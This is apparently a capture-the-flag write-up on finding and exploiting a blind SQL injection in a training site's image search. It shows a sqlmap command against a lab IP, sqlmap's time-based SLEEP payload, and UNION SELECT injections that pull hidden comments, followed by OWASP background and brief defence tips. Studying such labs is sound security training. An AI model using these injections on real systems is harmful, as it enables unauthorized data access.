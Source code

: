 # Blind SQL Injection in Image Search

# Tools
sqlmap, SQL injection: https://www.computersecuritystudent.com/SECURITY_TOOLS/SQL_INJECTION/lesson10/index.html
MD5 decoder, SHA256

# How to solve it
When running

```
python3 sqlmap.py -u "http://192.168.0.8/?page=searchimg&id=5&Submit=Submit#"
```
it returns the following log:
sqlmap identified the following injection point(s) with a total of 155 HTTP(s) requests:
---
Parameter: id (GET)
    Type: time-based blind
    Title: MySQL >= 5.0.12 AND time-based blind (query SLEEP)
    Payload: page=searchimg&id=5 AND (SELECT 8675 FROM (SELECT(SLEEP(5)))rmah)&Submit=Submit
---
web server operating system: Linux Ubuntu
web application technology: Nginx 1.4.6, PHP 5.5.9
back-end DBMS: MySQL >= 5.0.12 (MariaDB fork)

By using
```5 UNION SELECT table_name, column_name FROM information_schema.columns```
there can be found a column "comments", which is not shown in the original search.

So by making the SQL Injection:
```
5 UNION SELECT comment, title FROM list_images
```
the result shows the comment instead of the URL, in one of the comments are the instructions
to obtain the flag.

Risk Factors

The platform affected can be:

    Language: SQL
    Platform: Any (requires interaction with a SQL database)

SQL Injection has become a common issue with database-driven web sites. The flaw is easily detected, and easily exploited, and as such, any site or software package with even a minimal user base is likely to be subject to an attempted attack of this kind.

Essentially, the attack is accomplished by placing a meta character into data input to then place SQL commands in the control plane, which did not exist there before. This flaw depends on the fact that SQL makes no real distinction between the control and data planes.

# Source
https://owasp.org/www-community/attacks/Blind_SQL_Injection

### How to protect
 - Input Validation like restricting input size, and if the data is a name it doesnt have to contain numbers and if the data is a number we could block string from it.
 - Sanitize user input by checking some chars in the input and exchanging it so the SQL doesn't interpeter these.